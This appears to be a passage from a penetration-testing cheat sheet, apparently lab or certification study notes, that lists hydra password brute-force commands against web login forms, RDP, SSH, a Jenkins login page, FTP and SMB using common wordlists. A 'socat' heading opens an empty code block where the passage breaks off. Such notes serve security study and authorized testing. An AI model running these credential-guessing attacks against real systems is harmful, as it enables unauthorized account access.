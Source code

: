 ```bash
hydra -I -f -L  -P passwords.txt 'http-post-form://192.168.243.61:8081/service/rapture/session:username=^USER64^&password=^PASS64^:C=/:F=403'

# rdp
sudo hydra -L /usr/share/wordlists/rockyou.txt -p "<% tp.frontmatter["PASSWORD"] %>" rdp://<% tp.frontmatter["RHOST"] %>
hydra -L /usernamepath -P /passpath rdp://10.x.x.x -s 3333

# ssh
sudo hydra -l george -P /usr/share/wordlists/rockyou.txt -s 2222 ssh://<% tp.frontmatter["RHOST"] %>
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/common_passwords.txt 192.88.141.3 -t 4 ssh
sudo hydra -l george -P /usr/share/wordlists/rockyou.txt -s 2222 ssh://192.168.x.x

# jenkins
hydra -l admin -P /usr/share/wordlists/rockyou.txt 127.0.0.1 -s 8000 http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in&Login=Login:Invalid username or password" -V

# ftp
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/common_passwords.txt 192.88.141.3 ftp

#smb
$ hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.211.66.3 smb
```

### socat
```bash
